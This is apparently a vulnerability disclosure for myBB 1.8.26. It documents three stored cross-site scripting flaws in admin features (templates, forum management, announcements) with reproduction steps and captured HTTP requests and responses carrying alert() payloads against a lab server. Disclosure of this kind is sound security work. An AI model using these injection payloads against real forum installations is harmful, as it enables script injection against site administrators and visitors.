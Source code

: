 ### myBB Forum Stored XSS

Stored XSS #1:


To reproduce do the following:

1. Login as administrator user
2. Browse to "Templates and Style" -> "Templates" -> "Manage Templates" -> "Global 
Templates" 
3. Select "Add New Template" and enter payload "><img src=x onerror=alert(1)>


```
// HTTP POST request showing XSS payload

POST /mybb_1826/admin/index.php?module=style-templates&action=edit_template HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&title="><img+src=x+onerror=alert(1)>&sid=-1&template=&continue=Save+and+Continue+Editing


// HTTP redirect response to specific template

HTTP/1.1 302 Found
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
Location: index.php?module=style-templates&action=edit_template&title=%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&sid=-1
[...]


// HTTP GET request to newly created template

GET /mybb_1826/admin/index.php?module=style-templates&sid=-1 HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.40
[...]

<tr class="first">
<td class="first"><a href="index.php?module=style-templates&amp;action=edit_template&amp;title=%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&amp;sid=-1">"><img src=x onerror=alert(1)></a></td>
[...]
```



Stored XSS #2:


To reproduce do the following:
1. Login as administrator user
2. Browse to "Forums and Posts" -> "Forum Management"
3. Select "Add New Forum" and enter payload "><script>alert(1)</script>


```
// HTTP POST request showing XSS payload

POST /mybb_1826/admin/index.php?module=forum-management&action=add HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]
my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&type=f&title="><script>alert(1)</
script>&description="><script>alert(2)</script[...]


// HTTP response showing successfully added a new forum

HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 11:00:28 GMT
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]


// HTTP GET request to fetch forums

GET /mybb_1826/admin/index.php?module=forum-management HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]
<small>Sub Forums:  <a href="index.php?module=forum-management&amp;fid=3">"><script>alert(1)</script></a></small>
```


Stored XSS #3:


To reproduce do the following:
1. Login as administrator user
2. Browse to "Forums and Posts" -> "Forum Announcements"
3. Select "Add Announcement" and enter payload "><img+src=x+onerror=alert(1)>


```
// HTTP POST request showing XSS payload

POST /mybb_1826/admin/index.php?module=forum-announcements&action=add HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]

my_post_key=60dcf2a0bf3090dbd2c33cd18733dc4c&title="><img+src=x+onerror=alert(1)>&s
tarttime_day=20&starttime_month=11&starttime_year=2022&starttime_time=11:05+AM&endt
ime_day=20&endtime_month=11&endtime_year=2023&endtime_time=11:05+AM&endtime_type=2&
message="><script>alert(2)</script>&fid=2&allowmycode=1&allowsmilies=1


// HTTP response showing successfully added an anouncement

HTTP/1.1 302 Found
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]


// HTTP GET request to fetch forum URL

GET /mybb_1826/ HTTP/1.1
Host: 192.168.139.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 
Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev 
Perl/v5.16.3
[...]
<a href="forumdisplay.php?fid=3" title="">"><script>alert(1)</script></a>
```




